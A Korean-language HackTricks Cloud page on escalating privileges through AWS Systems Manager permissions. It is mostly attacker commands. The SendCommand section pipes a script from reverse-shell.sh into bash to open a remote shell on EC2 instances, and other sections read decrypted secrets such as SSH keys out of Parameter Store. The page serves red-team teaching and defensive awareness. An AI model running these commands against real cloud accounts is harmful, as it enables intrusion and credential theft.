 # AWS - SSM 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로에서 영웅까지 AWS 해킹을 배우세요**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고**하거나 **HackTricks를 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요**.
* **해킹 요령을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소를 이용하세요.

</details>

## SSM

SSM에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** 권한을 가진 공격자는 Amazon SSM 에이전트가 실행 중인 인스턴스에서 **명령을 실행**하고 그 내부에서 실행되는 IAM 역할을 **침해**할 수 있습니다.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
만약 이미 침해당한 EC2 인스턴스 내에서 권한 상승을 위해 이 기술을 사용하는 경우, 다음을 사용하여 로컬에서 rev 쉘을 캡처할 수 있습니다:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**잠재적 영향:** SSM 에이전트가 실행 중인 EC2 IAM 역할에 대한 직접적인 권한 상승.

### `ssm:StartSession`

**`ssm:StartSession`** 권한을 가진 공격자는 Amazon SSM 에이전트가 실행 중인 인스턴스에서 **SSH와 유사한 세션을 시작**하고 그 내부에서 실행되는 IAM 역할을 **침해**할 수 있습니다.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
세션을 시작하려면 **SessionManagerPlugin**이 설치되어 있어야 합니다: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**잠재적인 영향:** SSM 에이전트가 실행 중인 EC2 IAM 역할에 직접 권한 상승.

#### ECS로의 권한 상승

**ECS 작업**이 **`ExecuteCommand`가 활성화**된 상태에서 실행될 때 충분한 권한을 가진 사용자는 `ecs execute-command`를 사용하여 컨테이너 내에서 명령을 실행할 수 있습니다.\
[**문서**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)에 따르면 이 작업은 "exec" 명령을 시작하는 기기와 SSM 세션 관리자를 통해 대상 컨테이너 사이에 안전한 채널을 생성함으로써 수행됩니다. (SSM 세션 관리자 플러그인이 필요함)\
따라서 `ssm:StartSession` 권한이 있는 사용자는 해당 옵션이 활성화된 ECS 작업 내에서 쉘을 얻을 수 있습니다. 단순히 다음을 실행하면 됩니다:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**잠재적 영향:** `ExecuteCommand`가 활성화된 실행 중인 작업에 연결된 `ECS` IAM 역할로의 직접적인 권한 상승.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** 권한을 가진 공격자는 **끊어진** SSM 세션 상태를 가진 Amazon SSM 에이전트가 실행 중인 인스턴스에서 SSH와 유사한 세션을 다시 시작할 수 있으며, 그 안에 실행 중인 IAM 역할을 **침해**할 수 있습니다.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**잠재적 영향:** SSM 에이전트가 실행되고 세션이 끊긴 상태에서 실행 중인 인스턴스에 연결된 EC2 IAM 역할로의 직접 권한 상승.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

상기 권한을 가진 공격자는 **SSM 매개변수를 나열**하고 **평문으로 읽을 수** 있게 됩니다. 이러한 매개변수에는 종종 SSH 키 또는 API 키와 같은 **민감한 정보**가 포함될 수 있습니다.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**잠재적 영향:** 매개변수 내에서 민감한 정보를 찾을 수 있습니다.

### `ssm:ListCommands`

이 권한을 가진 공격자는 모든 **명령어**를 나열하고, 그 중에서 **민감한 정보**를 발견할 수 있습니다.
```
aws ssm list-commands
```
**잠재적 영향:** 명령어 라인 안에 있는 민감한 정보를 찾습니다.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

이 권한을 가진 공격자는 보낸 모든 **명령어**를 나열하고 생성된 출력을 읽어 **민감한 정보**를 발견할 수 있습니다.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**잠재적 영향:** 명령어 출력 내에서 민감한 정보 찾기.

### Codebuild

빌드 중인 codebuild 프로젝트 내부로 들어가려면 SSM을 사용할 수도 있습니다:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>제로부터 영웅이 될 때까지 AWS 해킹 배우기</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 요령을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **깃허브 저장소에 제출**하세요.

</details>
